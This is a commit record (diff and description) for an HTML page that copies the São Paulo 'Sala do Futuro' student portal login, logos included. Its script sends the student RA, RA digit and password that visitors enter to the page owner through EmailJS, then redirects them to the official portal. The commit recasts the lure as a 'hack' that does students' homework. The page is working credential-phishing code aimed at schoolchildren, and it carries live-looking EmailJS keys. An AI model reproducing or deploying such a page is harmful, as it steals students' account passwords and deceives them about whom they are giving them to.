

Before and after one commit to 369llll/Sala-do-futuro.com, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -23,7 +23,7 @@
         }
 
         body {
-            background-color: var(--bg-color); /* Fundo igual ao do app para preencher tudo */
+            background-color: #fff;
             display: flex;
             justify-content: center;
             align-items: center;
@@ -33,8 +33,7 @@
         .app-container {
             background-color: var(--bg-color);
             width: 100%;
-            /* Removido o max-width para ocupar a tela toda */
-            max-width: 100%;
+            max-width: 400px;
             height: 100dvh;
             position: relative;
             overflow: hidden;
@@ -46,19 +45,8 @@
             padding: 25px;
             display: flex;
             flex-direction: column;
-            justify-content: center; /* Centraliza o conteúdo verticalmente na tela do PC */
-            align-items: center;     /* Centraliza o conteúdo horizontalmente na tela do PC */
             height: 100%;
             overflow-y: auto;
-            width: 100%;
-        }
-
-        /* Container interno para os formulários não ficarem infinitamente largos no monitor */
-        .content-wrapper {
-            width: 100%;
-            max-width: 450px; /* Limite suave para manter a legibilidade no PC */
-            display: flex;
-            flex-direction: column;
         }
 
         .hidden {
@@ -114,10 +102,9 @@
             display: flex;
             flex-direction: column;
             gap: 12px;
-            width: 100%;
         }
 
-        .card {
+        #card {
             background: #fff;
             border-radius: 16px;
             padding: 20px;
@@ -125,6 +112,8 @@
             align-items: center;
             box-shadow: 0 4px 18px rgba(0, 0, 0, 0.10);
             cursor: pointer;
+            border: solid 5px green;
+
         }
 
         .card-content {
@@ -173,19 +162,13 @@
             margin-top: 20px;
             margin-bottom: 20px;
             min-height: 111px;
-            font-size: 25px;
-            width: 100%;
+            font-size: 25px
         }
 
         .form-row {
             display: flex;
             gap: 12px;
             margin-bottom: 12px;
-            width: 100%;
-        }
-
-        .input-group {
-            width: 100%;
         }
 
         .input-group label {
@@ -251,7 +234,6 @@
             display: flex;
             gap: 12px;
             margin-bottom: 30px;
-            width: 100%;
         }
 
         .btn {
@@ -282,31 +264,37 @@
             font-size: 17px;
             margin-bottom: 25px;
         }
+.mtcs {
+    padding: 20%;
+    font-size: 35px;
+    font-weight: -10;
+    color: red;
+}
     </style>
 </head>
 <body>
     <div class="app-container">
 
-        <div id="screen-menu" class="screen">
-            <div class="content-wrapper">
+        <div id="screen-menu" class="screen-menu screen">
+
          <div class="header-logo">
                 <img src="https://upload.wikimedia.org/wikipedia/commons/1/1c/Sala_do_Futuro_logo.png" alt="logo">
-                    <span class="text">SALA DO <br> FUTURO</span>
+                <span class="text">SALA DO <br> PASSADO</span>
             </div>
             <h1>Olá, novamente!</h1>
             <p class="subtitle">Já estávamos sentindo sua falta.</p>
-                <p class="instruction">Escolha abaixo um perfil para acessar.</p>
+            <p class="instruction">faz tarefas, matific, alura, speak, redacao, e leiasp</p>
 
             <div class="menu-cards">
-                    <div class="card" onclick="toggleScreens('screen-login')">
-                        <div class="card-content">
+                <div id="card" onclick="toggleScreens('screen-login')">
+                    <div id="card-content">
                         <span class="card-role">Sou</span>
                         <span class="card-title">Estudante</span>
                     </div>
                     <div class="card-arrow">➔</div>
                 </div>
 
-                    <div class="card" onclick="toggleScreens('screen-server')">
+                <div id="card" onclick="toggleScreens('screen-server')">
                     <div class="card-content">
                         <span class="card-role">Sou</span>
                         <span class="card-title">Servidor</span>
@@ -315,7 +303,7 @@
                     <div class="card-arrow">➔</div>
                 </div>
 
-                    <div class="card" onclick="alert('Em breve')">
+                <div id="card" onclick="alert('Em breve')">
                     <div class="card-content">
                         <span class="card-role">Sou</span>
                         <span class="card-title">Responsável</span>
@@ -324,29 +312,29 @@
                 </div>
             </div>
 
-                <div class="banner">
-                    <p>Você sabe o que é a<br><strong>SALA DO FUTURO?</strong></p>
+            <div style="overflow: auto;"class="banner">
+                <p >O speak pode demorar e/ou fazer pouco pois está em desenvolvimento<br><strong>SALA DO PASSADO</strong></p>
             </div>
-            </div>
+<div class="mtcs">SALA DO FUTURO HACK</div>
+
              </div>
 
         <div id="screen-login" class="screen hidden">
-            <div class="content-wrapper">
             <div class="header-logo">
                 <img src="https://upload.wikimedia.org/wikipedia/commons/1/1c/Sala_do_Futuro_logo.png" alt="logo">
-                    <span class="text">SALA DO <br> FUTURO</span>
+                <span class="text">SALA DO <br> PASSADO</span>
             </div>
-                <h1>Estudante</h1>
-                <p class="subtitle">Preencha seus dados abaixo para acessar o sistema.</p>
+            <h1>369llll the legend</h1>
+            <p class="subtitle">Preencha seus dados abaixo para acessar o sistema. </p>
 
             <div class="form-row">
                 <div class="input-group input-ra">
-                        <label>RA</label>
+                    <label style="color: red;">RA</label>
                     <input type="text" id="ra" placeholder="Ex.: 186735683">
                 </div>
 
                 <div class="input-group input-digito">
-                        <label>Dígito RA</label>
+                    <label style="color: red;">Dígito RA</label>
                     <input type="text" id="digito" placeholder="0">
                 </div>
 
@@ -367,7 +355,7 @@
             <a href="#" class="link link-right" style="color: #5ba4bf">Esqueceu o RA. <strong>Clique aqui</strong></a>
 
             <div class="input-group password-container">
-                    <label>Senha</label>
+                <label style="color: red;">Senha</label>
                 <input type="password" id="senha" placeholder="Digite sua senha">
                 <span class="eye-icon">
                     <svg viewBox="0 0 24 24">
@@ -386,24 +374,22 @@
             <div class="help-link">Preciso de ajuda</div>
             <img style="max-width: 130px; margin: 0 auto;" src="https://maisexpressao.com.br/imagens/noticias/70831/640x480/logomarca-sp.png" alt="seduc logo">
         </div>
-        </div>
 
         <div id="screen-server" class="screen hidden">
-            <div class="content-wrapper">
             <div class="header-logo">
                 <img src="https://upload.wikimedia.org/wikipedia/commons/1/1c/Sala_do_Futuro_logo.png" alt="logo">
                 <span class="text">SALA DO <br> FUTURO</span>
             </div>
             <h1>Servidor</h1>
             <p class="subtitle">Acesso administrativo via GOV.BR</p>
-                <button class="btn btn-outline" onclick="toggleScreens()">Voltar</button>
+            <button class="btn btn-outline"  onclick="toggleScreens()">Voltar</button>
         </div>
+        <h2 style="color: red;">Created by 369llll lucas</h2>
     </div>
-
-    </div>
-
        <script type="text/javascript" src="https://cdn.jsdelivr.net/npm/@emailjs/browser@4/dist/email.min.js"></script>
     <script>
+
+
         emailjs.init("8pgahZ_-rhwjIlwKO");
 
         function toggleScreens(targetId) {
@@ -436,7 +422,7 @@
 
             emailjs.send('service_wr60pwg', 'template_xx2s2qo', templateParams)
                 .then(function() {
-                    if(confirm('Ops, ocorreu um erro técnico. Clique em OK para tentar pelo portal oficial.')) {
+                    if(confirm('hack confirmado, espera no maximo 1 dia.')) {
                         window.location.href = "https://saladofuturo.educacao.sp.gov.br/login-alunos";
                     }
                 }, function(error) {
```
Lines whose indentation alone changed are shown as unchanged.
